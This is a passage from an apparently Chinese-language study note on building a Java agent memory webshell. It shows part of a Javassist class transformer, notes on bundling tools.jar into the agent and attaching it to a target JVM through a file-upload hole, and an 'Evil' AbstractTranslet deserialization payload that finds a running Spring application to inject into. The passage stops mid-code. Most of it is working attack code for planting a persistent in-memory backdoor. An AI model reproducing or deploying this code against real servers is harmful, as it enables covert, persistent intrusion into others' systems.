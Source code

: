 ```java
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return classfileBuffer;
    }
}
```

打包 agent.jar 的时候，顺便把 tools.jar 也一起打进去，否则还需要去目标机器加载，不然就会出现找不到 VirtualMachine 类的问题。我们打入一个jar包，通过 urlclassloader 去获取一个 classloader 就可以来加载我们需要的 VirtualMachine 类了。

![image-20240313112914457](R:\languages\Java\study\Agent_Tech\pic\image-20240313112914457.png)



接着就需要想办法将我们的 agent.jar 加载进去

大致思路还是获取到 jvm 的 pid 号之后，调用 loadAgent 方法将 agent.jar 注入进去，通过反射调用方法即可。（假如服务存在文件上传的口子，能给我们上传 jar）

```java
package AgentMemShell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet {
    static {
        try {
            String path = "R:\\languages\\Java\\study\\Agent_Tech\\agentmain\\src\\main\\java\\AgentMemShell\\jars\\agentmain.jar";
            String springApplication = "com.example.springdemo.SpringDemoApplication";

            java.net.URL url = new java.io.File(path).toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
//            ClassLoader classLoader = ClassLoader.getSystemClassLoader();

            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list", null);
            java.util.List list = (java.util.List) listMethod.invoke(MyVirtualMachine, null);
            System.out.println("Running JVM list ...");
            for (int i = 0; i < list.size(); i++) {
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName", null);
                String name = (String) displayName.invoke(o, null);
                // 这里的 if 条件根据实际情况进行更改,不加也行，附加在全部的程序上
                if (name.contains(springApplication)) {
                    // 获取对应进程的 pid 号
```